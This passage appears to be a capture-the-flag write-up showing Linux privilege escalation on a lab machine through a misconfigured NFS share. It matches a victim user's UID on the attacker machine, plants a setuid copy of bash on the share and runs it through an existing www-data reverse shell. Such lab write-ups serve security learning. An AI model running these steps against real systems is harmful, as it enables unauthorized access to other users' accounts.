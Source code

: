 *Had to refer to a writeup to continue, and these articles helped me: [Linux Privilege Escalation using Misconfigured NFS](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/) and [Linux Privilege Escalation – Exploiting NFS Shares](https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/).*

Reading the `/etc/exports` file, we can see there's no `no_root_squash`, so we cannot place a bash binary owned by the root user.

<img src="attachments/008d1b8304aa5c940b3c7249a92307a1.png" />

We know there's a user `peter.turner` on the victim machine with the ID `902601108`.

<img src="attachments/deb33fc41898065d81010f2a98b7244e.png" />

Added the user `peter.turner@hybrid.vl` to Falcon and changed the **UID** and **GID** to **902601108**.

<img src="attachments/360be288ed94b2649c333008e478b4cc.png" />

On the victim machine, copied `/bin/bash` to the `/opt/share` folder.

```
sudo su -l peter.turner@hybrid.vl
#already mount the share using sudo 
cp /mnt/bash /tmp/bash
#just to add user rights
#then remove bash from /opt/share using  reverse shell as www-data
www-data@mail01:/opt/share$ rm bash
#then on attacker machine transfer /tmp/bash to /mnt/bash
cp /tmp/bash /mnt/bash
#and give permission to bash file which is in /mnt/bash
chmod +s /mnt/bash
#on reverse shell use ./bash -p to get shell as user peter.turner@hybrid.vl
/opt/share/bash -p
```

